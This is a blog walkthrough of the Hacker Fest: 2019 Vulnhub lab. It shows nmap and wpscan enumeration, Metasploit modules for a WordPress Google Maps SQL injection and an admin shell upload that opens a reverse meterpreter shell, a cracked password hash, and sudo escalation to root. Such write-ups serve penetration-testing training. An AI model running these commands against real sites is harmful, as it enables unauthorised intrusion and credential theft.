 ```yaml
---
title: 'Hacker Fest: 2019 Vulnhub Walkthrough'
date: 2019-10-12T18:11:00+01:00
draft: false
---
```


Hacker Fest:2019 VM is made by Martin Haller. This VM is a purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing. It is of easy level and is very handy in order to brush up your skills as a penetration tester. The ultimate goal of this challenge is to get root and to read the root flag.

**Level: Easy**

Since these labs are available on the Vulnhub Website. We will be downloading the lab file from this **[link](https://www.vulnhub.com/entry/hacker-fest-2019,378/)**.

### **Penetration Testing Methodology**

*   **Network Scanning**
    *   Nmap port scan
*   **Enumeration**
    *   Browsing HTTP Service
    *   Scanning WordPress (wpscan)
*   **Exploiting**
    *   WordPress Google Maps Plugin SQL Injection
    *   WordPress\_admin\_shell\_upload exploit
*   **Privilege Escalation**
    *   Abusing Sudo Rights

**Walkthrough**

### **Network Scanning**

Starting with netdiscover, to identify host IP address and thus we found **192.168.0.20**. let’s now go for advance network scanning using the nmap Aggressive scan.

```
nmap -A 192.168.0.20
```

We learned from the scan that we have the port 80 open which is hosting Apache httpd service, and we have the ports 21 and 22  open. This tells us that we also have the FTP service, SSH Service running on the target machine.

![](https://i2.wp.com/1.bp.blogspot.com/-_eqtGVzfPLc/XaIGE-f-7uI/AAAAAAAAg6g/CkQ2o8ghPYQF5lWAF7jFbBElSj44KgvtgCLcBGAsYHQ/s1600/1.png?w=687&ssl=1)

### **Enumeration**

Since we got the port 80 open, we decided to browser the IP Address in the web browser.

![](https://i2.wp.com/1.bp.blogspot.com/-cS8OIkMasSY/XaIGFKGeGWI/AAAAAAAAg6k/jFG6BUdvRjwxZUT0QFLSVRXxGLuwsQ8iQCLcBGAsYHQ/s1600/2.png?w=687&ssl=1)

This gave us a site that looks like a WordPress site, it’s time to perform a wpscan on the target machine.

```
wpscan --url http://192.168.0.20/
```

![](https://i2.wp.com/1.bp.blogspot.com/-snBF3Xm1fH8/XaIGEwLIvCI/AAAAAAAAg6c/CE0ay-t0Hfc3mqPMXppfAseeaJAJ-TM3wCLcBGAsYHQ/s1600/3.png?w=687&ssl=1)

If we move further down in the wpscan result we find the WordPress google map plugin. It is not updated. So, this could help us. Let’s try and exploit it.

![](https://i1.wp.com/1.bp.blogspot.com/-QIc5pygZfLg/XaIGFwCECFI/AAAAAAAAg6o/KZrRVlkNU10U2TPrRYZk9F1D5eNHDRGNQCLcBGAsYHQ/s1600/4.png?w=687&ssl=1)

### **WordPress Google maps Sqli Exploit**

We searched the google maps on our Metasploit Framework.  This gave us this exploit. This exploit works on a SQL injection vulnerability in a REST endpoint registered by the WordPress plugin wp-google-maps between 7.11.00 and 7.11.17 (included). As the table prefix can be changed by administrators, set DB\_PREFIX accordingly.

```
msf5 > use auxiliary/admin/http/wp google\_maps\_sqli  
msf5 auxiliary(admin/http/wp\_google\_maps\_sqli) > set rhosts 192.168.0.20  
msf5 auxiliary(admin/http/wp\_google\_maps\_sqli) > exploit
```

![](https://i1.wp.com/1.bp.blogspot.com/-VIJfs8a_3mk/XaIGFzUxsfI/AAAAAAAAg6s/FosQ6zC4Y-IcDKESql0AqI8ow1HuaqpsQCLcBGAsYHQ/s1600/5.png?w=687&ssl=1)

So, we got the following hash through the SQL injection that was on the target machine.

```
webmaster $P$Bsq0diLTcye6ASlofreys4GzRlRvSrl
```

Whenever we get some hashes all we remember is our best friend John The Ripper. The hashes were saved in a file named ‘hash’. We ran it through john. After working on it for some time. John cracked one of the hashes, it came out to be ‘kittykat1’.

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![](https://i0.wp.com/1.bp.blogspot.com/-hsBd4_FORNM/XaIGGOZ0saI/AAAAAAAAg6w/-DzZRzlx4skb0ZAVvVigVoKs_omCJ9RiwCLcBGAsYHQ/s1600/6.png?w=687&ssl=1)

The very first method that we have is Metasploit framework, this module takes an administrator username and password, logs into the admin panel, and uploads a payload packaged as a WordPress plugin. Because this is authenticated code execution by design, it should work on all versions of WordPress and as a result, it will give meterpreter session of the webserver.

```
msf5 > use exploit/unix/webapp/wp\_admin\_shell\_upload  
msf5 exploit(unix/webapp/wp\_admin\_shell\_upload) > set rhosts 192.168.0.20  
msf5 exploit(unix/webapp/wp\_admin\_shell\_upload) > set username webmaster  
msf5 exploit(unix/webapp/wp\_admin\_shell\_upload) > set password kittykat1  
msf5 exploit(unix/webapp/wp\_admin\_shell\_upload) > exploit   
meterpreter > shell  
python -c 'import pty;pty.spawn("/bin/bash")'  
su webmaster  
Password: kittykat1
```

Great!! It works wonderfully and you can see that we have owned the reverse connection of the web server via meterpreter session.

![](https://i2.wp.com/1.bp.blogspot.com/-QLIE2042c0s/XaIGGgQ-Y4I/AAAAAAAAg60/_uJYgAmB-M843eKUlI9WxpgpGlnbzSedQCLcBGAsYHQ/s1600/7.png?w=687&ssl=1)

### **Privilege Escalation**

On the other hands start your attacking machine and first compromise the target system and then move to the privilege escalation phase. After successful login in the victim’s machine now executes below command to know sudo rights for the current user.

```
sudo -l  
sudo su  
cd /root  
ls  
cat flag.txt
```

![](https://i0.wp.com/1.bp.blogspot.com/-DayGdDDGdmo/XaIGGzm8lXI/AAAAAAAAg64/8VT8dK1xxCMBJeXnDWfGG5lW0Hapq0TDQCLcBGAsYHQ/s1600/8.png?w=687&ssl=1)

**Author: Japneet Kaur Gandhi **is a Technical Writer, Researcher and Penetration Tester.** Contact **[**here**](https://www.linkedin.com/in/japneet-kaur-65a13b171/)

The post [Hacker Fest: 2019 Vulnhub Walkthrough](https://www.hackingarticles.in/hacker-fest-2019-vulnhub-walkthrough/) appeared first on [Hacking Articles](https://www.hackingarticles.in).

  
  
from Hacking Articles https://ift.tt/2M7ISaW